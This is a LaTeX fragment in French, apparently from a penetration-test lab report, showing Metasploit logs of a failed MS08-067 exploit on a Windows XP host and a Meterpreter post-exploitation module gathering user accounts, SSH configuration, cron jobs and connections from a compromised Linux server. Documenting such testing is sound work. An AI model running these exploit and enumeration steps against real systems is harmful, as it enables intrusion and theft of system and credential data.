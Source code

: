 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
\begin{lstlisting}[style=logstyle,caption=Tentative exploit MS08-067 (NetAPI) — Resultat : Echec (patch applique)]
		[msf]> use exploit/windows/smb/ms08_067_netapi
		[msf] exploit(windows/smb/ms08_067_netapi)> set RHOSTS 192.168.20.50
		[msf] exploit(windows/smb/ms08_067_netapi)> exploit
		
		[*] 192.168.20.50:445 - Automatically detecting the target...
		[*] 192.168.20.50:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
		[*] 192.168.20.50:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
		[*] 192.168.20.50:445 - Attempting to trigger the vulnerability...
		[*] Exploit completed, but no session was created.
		
		[-] Exploit failed (timed out)
	\end{lstlisting}

\textbf{Raison :} Système a reçu le patch MS08-067 (KB958644), ou DEP/firewall local bloque l'exécution.

\textbf{Leçon Apprise :} Même un système obsolète (Windows XP 2014) peut résister aux exploits si des patches sont appliqués, ce qui souligne l'importance des mises à jour régulières.

\section{Collecte d'Intelligence (Post-Exploitation)}

En l'absence d'exploitation directe du Windows XP, l'attaquant se concentre sur l'exfiltration de données depuis le serveur DMZ compromis.

\subsection{Modules de Post-Exploitation}

\begin{lstlisting}[caption=Enumeration systeme via post/linux/gather/enum\_system]
		(Meterpreter 2)> use post/linux/gather/enum_system
		(Meterpreter 2)> set SESSION 2
		(Meterpreter 2)> run
		
		[+] Info:
		[+]     Ubuntu 25.04
		[+]     Linux DMZ-WebServer 6.14.0-37-generic x86_64 GNU/Linux
		[*] User accounts stored in loot/20260304_linux_enum_users.txt (43 users)
		[*] Installed Packages stored in loot/20260304_linux_enum_packages.txt (103 KB)
		[*] Running Services stored in loot/20260304_linux_enum_services.txt
		[*] SSH Config stored in loot/20260304_linux_enum_sshd_config.txt (4.1 KB)
		[*] Cron jobs stored in loot/20260304_linux_enum_crons.txt
		[*] Active Connections stored in loot/20260304_linux_enum_netstat.txt
	\end{lstlisting}
\end{document}
